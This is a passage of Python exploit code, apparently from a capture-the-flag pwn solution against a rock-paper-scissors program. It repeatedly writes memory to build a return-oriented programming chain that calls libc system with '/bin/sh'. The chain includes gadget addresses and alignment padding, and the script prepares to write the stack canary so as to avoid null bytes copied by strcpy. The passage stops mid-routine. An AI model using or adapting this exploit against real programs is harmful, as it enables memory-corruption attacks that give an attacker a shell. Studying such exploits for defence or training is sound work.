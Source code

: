 ```
                              + RPSHandler.OFFSET_SYSTEM_LIBC))[::-1])
        print("*** WROTE @system ***")
        self.full_round()

        # Write last null byte of @'bin/sh'
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*8+7 + (8 if align else 0),
                          b'\x00')
        print("*** WROTE last null byte of @'/bin/sh' ***")
        self.full_round()

        # Write @'/bin/sh' ===> simply exit_message
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*8 + (8 if align else 0),
                          bytes.fromhex("{:08x}".format(
                              self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA))[::-1])
        print("*** WROTE @'/bin/sh' ***")
        self.full_round()


        # Write last null byte of @gadget
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*7+7 + (8 if align else 0),
                          b'\x00')
        print("*** WROTE last null byte of @gadget ***")
        self.full_round()

        # Write @gadget
        self.write_memory(self.DATA_BASE_ADDR
                          + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                          + 8*7 + (8 if align else 0),
                          bytes.fromhex("{:08x}".format(
                              self.LIBC_BASE_ADDR
                              + RPSHandler.OFFSET_GADGET_LIBC))[::-1])
        print("*** WROTE @gadget ***")
        self.full_round()

        if align:
            # Write last null byte of @dummy gadget (@gadget + 1)
            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                              + 8*7+7,
                              b'\x00')
            print("*** WROTE last null byte of @dummy gadget ***")
            self.full_round()

            # Write @dummy gadget (@gadget + 1)
            self.write_memory(self.DATA_BASE_ADDR
                              + RPSHandler.OFFSET_EXIT_MESSAGE_DATA
                              + 8*7,
                              bytes.fromhex("{:08x}".format(
                                  self.LIBC_BASE_ADDR
                                  + RPSHandler.OFFSET_GADGET_LIBC + 1))[::-1])
            print("*** WROTE @dummy gadget ***")
            self.full_round()

        # Write stack canary
        # Do not write first byte because it is null
        # and would not be copied by strcpy
```